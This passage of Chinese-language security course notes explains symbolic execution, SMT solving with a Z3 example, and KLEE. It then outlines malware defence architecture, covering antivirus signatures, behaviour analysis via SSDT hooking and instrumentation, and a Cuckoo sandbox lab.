近年来，由于可满足模理论(SMT)研究以及动态符号执行技术的提出和应用使得符号执行技术研究有了革命性的进展，并已经被学术界和业界广泛应用于**软件测试、漏洞挖掘、模型验证**等领域

基本想法，已经提出来50年了。但是一直找不到一种自动化求解约束表达式的方法，所以停留在理论层面，但是最近十几、二十年情况不一样了，我们有了一种新的方法，并且开发出了工具，可以做到了

抽象一点，布尔可满足性问题（SAT，Boolean Satisfiability Problem），又称为命题可满足性问题（Propositional Satisfiability Problem），通常缩写为SATISFIABILITY或者SAT。布尔可满足性问题主要作用**是在使用某种特定的语言描述对象（变量）的约束条件时，求解出能够满足所有约束条件的每个变量的值**

#### SMT

SAT求解器已经被用于解决模型检查、形式化验证和其它包括成千上万变量和约束条件的复杂问题。但SAT问题是个NP完全问题，具有比较高的复杂度，且直接使用SAT求解器对程序进行分析的话需要需将问题转化为CNF形式的布尔公式，这给转化工作带来很大的困难

数学家已经证明了所有的NPC问题，都可以转化为SAT问题，后来发现一种算法，可以缓解这个问题，并在一定程度上求解。具体算法我们不用去深入了解，因为前人已经开发出工具了，简而言之是一种基于多维空间收敛搜索的方法。这个工具称为 SAT 求解器 / 他的变种SMT 求解器

可满足模理论(SMT，Satisfiability Modulo Theories)主要用于自动化推论（演绎），学习方法，为了检查对于一些逻辑理论的一阶公式的可满足性而提出的。SMT技术主要用于支持可推论的软件验证，在计算机科学领域已经被广泛应用于模型检测（Model Checking），自动化测试生成等。可以被用于检查基于一种或多种理论的逻辑公式的可满足性问题。典型的应用理论主要包括了各种形式的算术运算（Formalizations of Various Forms of Arithmetic），数组（Arrays），有限集（Finite Sets），比特向量（Bit Vectors），代数数据类型（Algebraic Datatypes），字符串（Strings），浮点数（Floating Point Numbers），以及各种理论的结合等

相对于SAT求解器而言，SMT求解器不仅仅支持布尔运算符，而且在使用SMT求解器的解决问题的时候不需要把问题转化成复杂的CNF范式，这使得问题得以简化。上面我们总结出来的“约束求解”问题有自动化的方法了，而且已经有人开发了工具了 > 其中比较优秀的是Z3，微软研究院开发的。


#### 约束求解器的使用

- [Z3网页](https://rise4fun.com/z3)
  
  

  - 这个是 SMT 求解器使用的一种描述语言，来描述变量之间的约束关系
  - `Is this formula satisfiable?`表明检测这个formula是否可满足的。
  - 简化修改如下
    ```
    ; This example illustrates basic arithmetic and 
    ; uninterpreted functions

    (declare-fun x () Int)
    (declare-fun y () Int)
    (declare-fun z () Int)
    (assert (>= (* 2 x) (+ y z)))
    (assert (= x y))
    (check-sat)
    (get-model)
    (exit)
    ```
    - 运行后的结果为
        ```
        sat
        (model 
            (define-fun z () Int
                0)
            (define-fun y () Int
                0)
            (define-fun x () Int
                0)
        )
        ```
    - formula 按照工具的要求语法，写成一种固定的形式
    - 1、2行是注释
    - 3、4、5三行相当于定义了三个int类型的变量
    - 7、8两行定义两个约束 > 固定语法：运算符写在前面，运算数写在后面。第一个约束表达式实际是：2 * x >= y + z
    - 9、10、11行是要求求解器做三个具体的事情，第一个是检测是否这个表达式是否满足 > 有无解；get-model得到一个具体的满足解，求解器给出了 x=0 y=0 z=0 就能满足两个约束；11行告诉求解器，工作做完了可以退出
- 改写前面例子
    ```
    ; This example illustrates basic arithmetic and 
    ; uninterpreted functions

    (declare-fun x () Int)
    (declare-fun y () Int)
    (declare-fun z () Int)
    (assert (= z (* 2 x)))
    (assert (> y x))
    (assert (< y (+ z 10)))
    (check-sat)
    (get-model)
    (exit)
    ```
    输出
    ```
    sat
    (model 
        (define-fun y () Int
            0)
        (define-fun x () Int
            (- 1))
        (define-fun z () Int
            (- 2))
    )
    ```

#### SMT-LIB

编程实现这种自动化的格式转化，就能实现一个全自动能完成100%代码覆盖率，生成每一条路径的测试数据的自动化工具

实际上有的SMT求解器都已经标准化了，上面的那种描述语言是所有约束求解器都遵守的输入语言，称为SMT-LIB

SMT-LIB（The satisfiability modulo theories library）自从2003年开始发起的为SMT理论研究提供标准化支持的项目，旨在促进SMT理论的研究和开发

SMT-LIB的目的主要如下：为SMT系统提供标准化严谨的背景理论描述；发展和促进SMT求解器的输入和输出语言；为SMT求解器研究团队建立和提供大型测试集library等。

SMT-LIB的定义：如果对于用户声明(declare)的常量和函数，存在一个解（interpretation）能使全局栈里面的所有的公式集（the set of formulas）为true，则称这些公式集是可满足（satisfiable）的


- 这个为SMT-LIB V2语言在实际约束求解中的应用
- declare-fun 命令用于声明一个函数，当函数里面参数为空时，表示声明一个符号常量；
- assert 命令用于添加一个约束式formula到SMT全局栈里面；
- check-sat 命令决定在栈里面的公式（formulas)是否是可满足的，如果是，则返回sat，如果不满足（not satisfiable，即unsatisfiable），则返回unsat，如果求解器无法根据已有的formula决定是否满足，则返回unknown；
- get-value 命令用于在check-sat命令返回的结果是sat的前提下获取满足使SMT求解器全局栈中所有formulas为true的其中的一个解

当前很多非常著名的软件测试工具都采用了符号执行技术，而且已经有很大一部分开放了源代码。例如：NASA的Symbolic (Java) PathFinder，伊利诺大学香槟分校（UIUC）的 CUTE和jCUTE，斯坦福大学（Stanford）的 KLEE, 加利福尼亚大学伯克利分校（UC Berkeley）的 CREST和 BitBlaze，瑞士洛桑联邦理工学院（EPEL）的S2E，卡内基梅隆大学（CMU）的Mayhem和Mergepoint，加利福尼亚大学圣巴巴拉分校（UC Santa Barbara）的angr等。在工业领域也有符号执行工具被广泛使用，如Microsoft(Pex, SAGE, YOGI和PREfix), IBM (Apollo), NASA 和Fujitsu的 (Symbolic PathFinder)等

这些工具发现了很多软件的bug > 比如SAGE，win7三分之一的安全漏洞是它发现的

上面说了这么多符号执行工具，实现过程：根据代码生成符号执行树 > 收集路径的约束 > 转为SMT-LIB格式 > 输入给约束求解器 > 验证路径可达或者不可达，可达的情况下获得解 > 根据解自动构造输入数据

#### [KLEE](https://klee.github.io/)

但是不同的符号执行工具在实现时有不同，比如KLEE只能分析C源码程序，后续的一些工具可以分析二进制程序

KLEE能实现全自动化，唯一的缺点是需要在程序中进行少量的修改


- klee_make_symbolic(&a, sizeof(a), "a") 的作用就是a标记为需要求解的输入数据
- BitBlaze还有一些后续工具，能够实现输入数据的自动识别，更高级一些

使用KLEE一共就几个步骤：准备一份源码，标记要分析的输入数据，编译，使用KLEE来运行编译后的程序，得到KLEE自动生成的测试用例，最后把所有输入测试用例循环输入给被测试程序，完成自动测试

KLEE不是使用的在线版本的示例性质的约束求解器，而是直接调用本地的二进制程序。Windows和Linux下都有Z3的可执行程序，Windows系统中是Z3.exe，可以在官网下载

**KLEE是暴力求解吗？**

##### 实验

- 环境：Linux
- [官方的教程](https://klee.github.io/tutorials/testing-function/)
- 使用KLEE，来完成自动走迷宫
  - https://github.com/grese/klee-maze
  - https://feliam.wordpress.com/2010/10/07/the-symbolic-maze/
  - 把这个迷宫小游戏的代码整理编译运行一下，然后在教程的基础上使用KLEE来完成这个迷宫游戏的自动探路，体验一下符号执行是如何去根据程序分析来自动生成满足特定约束条件、覆盖指定程序执行路径的输入数据的
- [实验结果](./hw-0x08-KLEE(Symbolic%20Execution)/README.md)

#### 符号执行的主要问题

##### 路径爆炸

当程序中有循环的时候，按照符号执行树，每一个分支条件都是需要展开，这会造成程序的路径非常多。但循环是程序的一个基本结构，普遍存在的，这种情况要遍历每一个路径，实际路径数量会非常巨大，造成消耗的时间不可行。这个问题称为路径爆炸，路径的数据量是分支数量的指数级，循环更加强了这个问题。

当程序路径非常多，输入变量非常多的时候，会超过SMT求解的求解能力

所以对大型程序，目前符号执行只是一种**辅助性**的手段。但是这种技术是有前景的，随着计算能力的增强，算法的优化和改进，未来可能成为程序分析、程序自动化测试和程序安全性分析的主要的形式化的方法，在软件安全领域有非常重要的应用

</details>

---

<details>
<summary>2020-5-20 恶意软件防御体系 + cuckoo [作业：cuckoo的搭建与程序的分析]</summary>

# 恶意软件防御体系

## 杀毒软件

- 背景：互联网没有今天这么发达，低速网络条件 - **单机的杀毒软件**
- 机制简单、容易实现，所以杀毒软件很早就被开发出来
- 核心：对系统中的所有文件进行全盘的扫描，将每个文件的**静态特征**，主要是文件类型、文件的hash值得数据与一个数据库中保存的信息进行对比
- 这个数据库中，主要保存的是一些**已经发现**的蠕虫病毒、恶意软件的hash值等静态特征。如果能匹配上，说明扫描到的文件是一个蠕虫病毒或者恶意软件，那么就进行删除。
- 开发杀毒软件的厂家，必须进行**病毒数据库的更新**：把厂家们已经发现的恶意软件加入到病毒数据库中，并让已经安装在客户主机中的杀毒软件定期链接服务器，升级病毒数据库。

## 入侵检测系统

- 在杀毒软件的基础上，人们还开发出了入侵检测系统
- 把数据库和对数据的扫描做成一个单独的设备，这个设备安装在一个网络的入口处，所有进入这个网络的**数据流量**都和**恶意数据的特征库**进行比较，找出其中可能有问题的数据并**拦截**

## 基于静态特征的匹配和查杀机制的缺陷

1. 查杀滞后
   - 杀毒软件能够查杀到的前提，是病毒的特征已经在数据库中。
   - 而这个数据库的特征是人为加入的。如果黑客们开发了一个新的蠕虫病毒或者攻击程序，杀毒软件是无法查杀的。
   - 只有当一个恶意软件已经流行开了，被杀毒软件厂家获得了**样本**，进行了**逆向分析**以后，才能确定其是否恶意，并提取其hash值等静态特征
2. 分析不容易
   - 从获得样本中进行软件的行为分析判断其是否恶意并不容易，需要很多的逆向工程的工作，这个工作需要有非常高的专业技能，同时有非常耗时间
3. 病毒变异容易
   - 恶意程序的源代码在黑客手里，他们要想进行变异，绕过杀毒软件的特征检测非常容易，只需略微进行修改，重新编译，hash就变了

## 改进

面对大规模变异的恶意软件，杀毒软件很可能疲于奔命

### 改进样本的获取渠道

- 原来杀毒软件厂家会在网络中容易被攻击的地方布置一些“陷阱”，如果恶意软件攻击进入了这些陷阱，杀毒软件厂家就获得了样本，这些陷阱就是早期的蜜罐。但是这种蜜罐只对蠕虫病毒等大规模流行的恶意软件有作用，对于一些定点的攻击很难获得样本。
- 后来，有杀毒软件厂家基于**黑白名单机制**，开发了一种直接从用户主机和网络流量中获取大量样本的方法。把一些**已知的可信的正常的软件**加入到一个“白名单”中，就像发一个“良民证”一样，这些软件就不查了。对于已经在黑名单中的文件，全部无条件查杀。对于既不在白名单又不在黑名单中的新的样本，全部回传到服务器。
- 带来新的问题
  1. 可能造成用户隐私泄露，造成用户的反感，甚至卸载防御软件
  2. 虽然解决了样本获取的问题，样本量却变得很大，是否能进行有效的分析变成了问题 -> 解决方法：**自动化程序分析**

### 分析软件行为

- 既然静态特征这么容易被绕过，则从软件行为上来分析
- 静态特征容易伪装，行为特征不容易伪装
- 黑客们再怎么修改源代码，不可能把功能都修改了。
  - 蠕虫病毒，一定会去复制自己，把原有的良好程序修改后嵌入自己（比如熊猫烧香），或者进行网络的扫描，发现可利用的漏洞进入其他系统（比如冲击波病毒）
  - 勒索软件一定会进行全盘加密、下载执行器一定会调用下载和执行相关的API
- 分析软件行为特征的客户端防御软件：主机入侵防御（检测）系统（HIPS或者HIDS）
- 带来新的问题
  - 要想分析行为，必须劫持软件的运行过程。比如采用hook技术，记录软件调用的系统API。但是这种技术，会造成系统运行效率的低下，系统变得很慢很卡；同时还会造成不稳定
  - 这种牺牲了用户系统的性能和稳定性的技术，虽然防御效果比纯静态特征要好得多（也不是十分完美，有一些高级的攻击还是防不住），但是用户却并不喜欢，代价太大

### 从源头上着手

- 蠕虫病毒也好、后门软件间谍程序、勒索软件，所有的有恶意软件，要想在目标系统中搞破坏，非法进入到目标系统，无非两条途径。一是利用**漏洞**，二是利用**社工**(社会工程学)
- 其中漏洞是主要的途径，也是技术上可防御的途径，纷纷加强加强堵漏洞
  1. 出现了漏洞数据库这样的东西，专门披露未知漏洞
  2. 大型的软件厂家，纷纷开发定期的漏洞补丁升级机制，最早最典型的就是微软
  3. 加大软件发布前的安全测试工作。比如采用Fuzzing技术、符号执行技术，先进行自测。那么黑客发现新的位置漏洞的可能性就小一些
- 这种改进的效果比较好。发现的软件漏洞的数量越来越多，修补得越来越快，黑客发现新的未知漏洞的成本越来越高。这也形成了新的趋势，就是个人黑客越来越没有生存空间，蠕虫病毒等没有什么“经济价值”对攻击者没有什么回报的攻击越来越少。
- 但是出现了勒索软件、APT攻击等新的方式，同时也意味着一旦被攻击，后果非常严重

## 现今整体防御体系的架构

1. 在客户端，**轻量级的静态特征匹配为主杀毒软件**并没有消失，还是广泛安装，操作系统自带了杀毒软件，比如Windows Defender等，国内360等装机量仍然非常巨大，但是他们都是轻量级的静态特征匹配为主。更重要的，在客户端，**漏洞的补丁安装和管理**更规范更及时，大多数用户由于各种惨痛经历，也积极打补丁
2. 形成了**专业的位置样本分析系统**(沙箱系统)，不在用户的客户端直接进行行为分析，而是由专业的系统进行样本的行为分析。这样，既能保证分析的准确性，又不影响用户主机的性能和稳定性
   - 专业的网络安全公司，都是大型的软件分析沙箱系统，用于分析新出现的样本，判定其是否恶意，并向客户端及时发布样本特征。

### 防御机制三大块 - 相互关联，高度配合

- 最核心的漏洞管理
- 大型的自动化的程序分析、沙箱和蜜罐系统
- 主机端的静态特征查杀
- 比一开始的杀毒要先进了不少，但是还是有防不住的情况
  - 用户故意不打补丁、长期不升级软件等情况还是会形成漏洞 - 靠管理宣传和教育
  - 防不了社工，比如钓鱼和诈骗邮件等。比如给面试的考生发一个 "录屏软件.exe"这样的钓鱼攻击，诱骗用户主动运行 - 靠管理宣传和教育
  - 防御不了0day漏洞攻击 - 安全研究人员研究的重点
    - 围绕0day漏洞，也就是未知漏洞的挖掘和防御
    - 攻击方和防御方，谁先挖出0day漏洞，谁就占有先手
    - 0day漏洞的挖掘：主流的就是Fuzzing和符号执行

## 在HIPS和沙箱中普遍采用的程序行为分析技术

- 剖析软件，大约可以分为几个层次。从高到底，有**系统级、模块级、函数级、基本块级和指令级**
  - 系统级：就是一个完整的软件。比如我们看Windows系统的任务管理器，就是一个有完整功能的软件系统的监视
    - 一个完整的软件系统，通常是由若干模块组成的，通常会有一个主模块和若干其他功能模块
    - 在Windows系统中，主模块是exe文件，其他功能模块是dll等文件
    - 主模块通常是程序的入口。我们在Windows Sysinternals系列工具中的进程浏览器就可以看到模块级
    - 模块内部的程序组织单元是函数(内部函数和外部函数)
      - 外部函数是一个软件系统自己实现的函数，外部函数是调用的其他第三方软件的接口函数，也包括操作系统的API
      - 函数内部是控制流图和指令。一个控制流图是执行是的若干分支，在控制流图种连续执行的一系列指令集合，中间没有分支的，就是基本块。不能再细分的是指令

### trace和分析

- 这5个层次，都可以进行运行时的trace和分析
  - 层次越高，追踪所获得的信息就越少，但是trace的时间越短
  - 记录一个系统中所有的进程的创建和退出，是非常容易的，几乎不会消耗系统的性能；但是如果记录到每一个指令的运行，那么我们的系统将在全局上有3-4个数量级的性能下降，也就是原来运行1秒钟的程序，需要一个小时左右的时间了。这肯定是不现实的。
  - 如果分析得太粗，可能会漏掉信息，如果分析的太细，数量级太大，又不可行 -> 所以首先需要选择合适的层次进行分析
  - 在现代的沙箱系统中，通常是多个层次结合的
    - 比如先有一个进程的白名单机制。白名单的进程，就不用分析了。比如notepad，calc等，他们是系统自带的一些小应用程序，没有分析的必要，就不浪费时间和资源。对于其他不清楚功能的分析对象，可以逐层深入
    - 进过多年的研究，发现在函数这个层次的分析是效率上可行，而且所能获得信息比较有用的
    - SSDT(System Service Dispatch Table 系统服务分派表) hook
      - Windows系统中的系统调用也是一层一层的，比如之前给大家讲过的kernel32.dll提供了大部分系统管理相关的基础API，有几千个。经过分析发现，kernel32.dll还会调用一个ntdll.dll，这个dll这有几百个函数。ntdll.dll会从用户态进入系统内核态。当ntdll.dll进入到内核态时，就是通过SSDT来确定其所有调用的系统内核函数的地址
      - 从这个意义上来讲，SSDT相当于这个Windows系统内核的导出表。数量在300个函数左右，根据不同的系统版本略有区别，包括了所有重要的系统基础功能。这是一个非常好的监控程序行为的指标
      - 比如，其中打开和创建文件NtCreateFile函数，获取操作系统参数，NtQuerySystemInfomation，创建进程NtCreateProcess等等
      - https://resources.infosecinstitute.com/hooking-system-service-dispatch-table-ssdt/#gref
      - https://github.com/xiaofen9/SSDTHOOK
      - https://www.cnblogs.com/boyxiao/archive/2011/09/03/2164574.html
      - https://ired.team/miscellaneous-reversing-forensics/windows-kernel/glimpse-into-ssdt-in-windows-x64-kernel
      - 如果监控了这个表，应用程序的大部分行为就都能获取了-> **基于系统调用序列的程序行为分析技术**
      - 把一个软件的系统调用序列和已知的恶意软件的系统调用序列进行分类
      - 实现软件行为判定的一种自动化方法：比如把已知的恶意软件的系统调用序列让机器学习进行学习训练，然后再让新的未知样本的系统调用序列用训练好的引擎进行分类判定
    - 有的时候，只是API这个层次还不够，可能还需要到控制流基本或者指令级别

### 方法

- 如何去进行trace，获取程序执行内部的这些信息的
- 首先，调试器是无所不能的。所有的程序执行细节都可以获得。而且高级的调试器是支持自动化的trace的，比如windbg和gdb都可以支持外挂脚本
- 第二，对于API层次，可以用我们熟悉的hook技术
- 第三，对于控制流和指令级别，除了可以用调试器以外，还可以用插桩工具
  - 插桩工具时一类专门用于程序trace的工具，其原理是通过在需要监控的程序点插入桩（记录程序运行的代码），来实现对程序运行过程的记录
  - 最典型的插桩工具时 intel 公司的 pin tools
  - 插桩工具的基本原理是在程序中插pin（桩），在程序运行到有pin位置，pin会调用一个分析者自行编写的回调函数，在回调函数内部完成记录分析或者安装新的桩等工作
  - https://software.intel.com/content/www/us/en/develop/articles/pin-a-dynamic-binary-instrumentation-tool.html

## 重点

1. 现在软件安全防御体系的一个现状和概要的发展过程
2. 在现在的软件安全防御体系中一个非常重要的点，程序行为分析的相关原理和技术

## 沙箱

- 对疑似恶意软件的分析，要在一个隔离环境中进行，是因为恶意软件有可能对环境进行破坏
- 安全研究人员们开发了一种专门的既可以隔离恶意软件（使其恶意行为之限定在虚拟机内部，不会对其他环境造成而已的破坏）同时又可以追踪分析软件行为的的工具 - 沙箱
- 目前应用得最广泛的沙箱是 [cuckoo](https://cuckoosandbox.org/) ，比较幸运的是它的编程接口是 python 的。使用 cuckoo ，可方便的进行程序行为分析，无需过分深入的研究让人头痛的系统内核机制和指令集

## 实验
 
- 安装并使用 cuckoo ，任意找一个程序，在 cuckoo 中 trace 获取软件行为的基本数据
- [实验结果](./hw-0x09-cuckoo/README.md)

</details>

---